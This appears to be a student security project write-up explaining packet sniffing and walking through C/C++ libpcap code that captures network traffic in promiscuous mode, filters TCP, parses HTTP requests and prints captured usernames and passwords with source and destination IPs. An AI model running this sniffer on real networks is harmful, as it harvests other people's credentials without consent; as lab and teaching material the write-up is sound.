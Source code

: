 # Packet Sniffing Attack And Sniffing HTTP Passwords



## 1. Introduction

In an usual networking scenario, all packets flowing across a network are received by the Network Interface Card (NIC) of any device of the network. Then the NIC checks if the MAC address of the destination machine in the packet matches with the one of the NIC. If they don't match, the packet is discarded. If they do match, the packet is farther passed to the kernel who dispatches a handler function. The handler function passes the packet to the proper user program.

In this scenario, the packets not intended for a machine are discarded by the NIC. But fortunately most of the NICs have a special mode called *promiscuous mode*. In this mode, the NIC passes all the received packets to the kernel. So if a user program is registered to receive all such packets, it will be able to read all the packets flowing across the network. This process is called packet sniffing. Usually network administrators use packet sniffing to understand network characteristics and troubleshoot networks if necessary. But intruders can also use it to gain access to confidential data.

More details on packet sniffing have been explained in the design report of this project with appropriate diagrams.



## 2. Steps of Attack

To implement the packet sniffing attack, I needed to put the NIC into promiscuous mode and create a raw socket to receive all frames. As I was trying to sniff only HTTP requests, I also needed to filter packets. For these purposes, I have used an API called *pcap* provided by the library *libpcap*. pcap provides some functions to create a packet sniffing environment and also allows to attach BSD packet filters to discard unwanted packets. The steps of the attack are described below:

1. First I have called the *pcap_open_live* function to get a packet capture handle to look at the packets received by the NIC *enp0s3*. The value of the third parameter is set to 1 in order to put the NIC into promiscuous mode.

   ```c++
   // errbuf is the buffer where the error message will be saved in case of a failure.
   handle = pcap_open_live("enp0s3", BUFSIZ, 1, 1000, errbuf);
   if(handle == NULL) // true if the preceding function call fails
   {
       printf("Failed to create socket\n");
       printf("Error message: %s\n", errbuf);
       return 0;
   }
   ```

2. Then I have created a BPF using the *pcap_compile* and *pcap_setfilter* functions. The filter expression **"ip proto tcp"** allows only IPv4 packets with TCP protocol to be captured. As I'm trying to sniff only HTTP requests, this filtering will discard a lot of unwanted packets.

   ```c++
   struct bpf_program fp;
   char filter_exp[] = "ip proto \\tcp"; // capturing only IPv4 packets with TCP protocol
   bpf_u_int32 net;
   
   int compile_res = pcap_compile(handle, &fp, filter_exp, 0, net);
   if(compile_res == PCAP_ERROR) {
       printf("Failed to compile BPF\n");
       pcap_perror(handle, "Error");
       return 0;
   }
   
   int setup_res = pcap_setfilter(handle, &fp);
   if(setup_res == PCAP_ERROR) {
       printf("Failed to attach BPF\n");
       pcap_perror(handle, "Error");
       return 0;
   }
   ```

3.  Next, I have called the *pcap_loop* function to start packet capturing. The second argument *-1* indicates that there is no limit to the number of captured packets. The third argument *got_packet* is the callback handler function that will be invoked when a packet is captured.
	```c++
	pcap_loop(handle, -1, got_packet, NULL);
	```
	
4. In the *got_packet* function, I have first type-cast the received packet into a custom *ipheader* structure. But I had to add the offset for the ethernet header with the start of the frame. From the created struct, I can extract all the data contained by the IP header of the packet. Now I can print the source and destination IP addresses.

   ```c++
   struct ipheader * ip = (struct ipheader *) (packet + sizeof(struct ethheader));
   ```

   *ipheader* and *ethheader* are two custom structures that contain all the header information of corresponding protocols.

   ```c++
   /* Ethernet header */
   struct ethheader {
     u_char  ether_dhost[6]; /* destination host address */
     u_char  ether_shost[6]; /* source host address */
     u_short ether_type;     /* protocol type (IP, ARP, RARP, etc) */
   };
   
   /* IP Header */
   struct ipheader {
     unsigned char      iph_ihl:4, //IP header length
                        iph_ver:4; //IP version
     unsigned char      iph_tos; //Type of service
     unsigned short int iph_len; //IP Packet length (data + header)
     unsigned short int iph_ident; //Identification
     unsigned short int iph_flag:3, //Fragmentation flags
                        iph_offset:13; //Flags offset
     unsigned char      iph_ttl; //Time to Live
     unsigned char      iph_protocol; //Protocol type
     unsigned short int iph_chksum; //IP datagram checksum
     struct  in_addr    iph_sourceip; //Source IP address
     struct  in_addr    iph_destip;   //Destination IP address
   };
   ```
   
5. Then I have extracted the TCP datagram in a similar way. A small difference is the IP header length is contained by the *iph_ihl* field as count of 32 bit words. We can then get the actual application message size by substracting the TCP header length contained by the *doff* field.
	```c++
	struct tcphdr *tcphh =
	    (struct tcphdr*) (packet + sizeof(struct ethheader) + ip->iph_ihl * 4);
	int data_size = ntohs(ip->iph_len) - ip->iph_ihl * 4 - tcphh->doff * 4;
	```
	
	*tcphdr* is a custom structure containing information of *TCP* header.
	
	```c++
	/* TCP Header */
	struct tcpheader {
	    unsigned short int source; // Source port
	    unsigned short int dest; // Destination port
	    unsigned int seq; // Sequence number
	    unsigned int ack_seq; // Acknowledgement Number
	    unsigned short int   res1:4,
	            doff:4, // Header length
	            fin:1,
	            syn:1,
	            rst:1,
	            psh:1,
	            ack:1,
	            urg:1,
	            ece:1,
	            cwr:1;
	    unsigned short int window; // Window size
	    unsigned short int check; // checksum
	    unsigned short int urg_ptr; // Urgent pointer
	};
	```
6. Then I have determined the start of the actual message by adding appropriate offsets for different protocol headers. I have written a simple parser to determine if the data is indeed an HTTP request containing username and passwords. If the data is not what I intend to capture, the function returns without printing anything.
	```c++
	char* data = (char*) (packet + sizeof(ethheader) + ip->iph_ihl * 4 + tcphh->doff * 4);
	
	http_parser parser(data);
	if(parser.isHTTP() == false) return;
	```

7. Finally I have printed the HTTP message containing username and passwords along with the source and destination IP addresses.

   ```c++
   printf("Total data size: %hu\n", data_size);
   printf("           From: %s\n", inet_ntoa(ip->iph_sourceip));  
   printf("             To: %s\n\n", inet_ntoa(ip->iph_destip));
   
   printf("HTTP Message:\n");
   for(int i = 0; i < data_size; i++) printf("%c", data[i]);
   printf("\n\n");
   ```



